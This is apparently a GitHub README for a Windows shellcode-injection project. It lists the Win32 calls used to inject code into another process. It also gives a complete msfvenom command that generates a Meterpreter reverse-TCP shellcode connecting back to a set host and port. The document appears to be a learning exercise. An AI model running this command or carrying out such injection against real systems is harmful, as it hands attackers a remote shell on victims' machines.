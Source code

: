 # ShellCodeInjectionWin10
Simple shell injection using [win32 API](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list)


## 1) Attatch to an exisiting, or newly created process
- Opening a handle to a function using Windows function [OpenProcess()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) 

## 2) Make space in that process
- Enough memory for you shell code to fit inside of
- Can use [VirtualAlloc()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

## 3) Add your own memory to the proccess
-Writing the process memory to embed your code using [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

## 4) Create a thread in the proccess to run your code that is in the proccess memory
- The thread to deliver your payload using the function [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)


## Shell code generation
With Metasploit I generated a shell code using

```
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.232.129 LPORT=443 EXITFUNC=thread -f c --var-name=shellCode
```
